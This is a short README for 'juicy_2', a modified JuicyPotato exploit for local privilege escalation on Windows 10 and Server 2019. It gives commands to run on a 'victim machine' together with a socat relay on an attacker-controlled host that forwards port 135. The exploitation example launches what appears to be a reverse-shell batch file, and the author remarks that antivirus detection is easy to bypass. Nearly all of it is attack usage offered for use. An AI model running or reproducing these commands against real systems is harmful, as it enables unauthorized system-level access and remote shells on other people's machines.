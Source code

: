 # juicy_2
juicypotato for win10 > 1803 &amp; win server 2019<br>
<b>Disclaimer:</b><br>
This is just a quick & dirty modification of our JuicyPotato in order to test valid CLSID's an to impersonate them for newer windows 10 and windows server 2019 platforms.<br>
(I know, this version is catched by Defender and other AV's, but with some modifications in code it's easy to bypass)
<br><br><hr>
Mandatory requisite is to have the possibility to reidirect traffic for port 135 on a forwarder machine under you control.<br>
Feel free to improve the code, I was too lazy for this kind of stuff. <br>
<br><br>
For testing CLSID:<br>
juicy_2 -z -x [ip] of socat listener  -l [fake oxid resolver port] -n [local RPC server port] -c [CLSID] to test:<br>
Example:
  on victim machine:
  juicy_2 -z -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}<br>
  on 192.168.1.1: <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995 
<br>For exploitation:<br>
  on victim machine:<br>
  juicy_2 -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} -t * -p c:\temp\reverse.bat<br>
  on 192.168.1.1: <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:<victim machine>:9995<br>
  
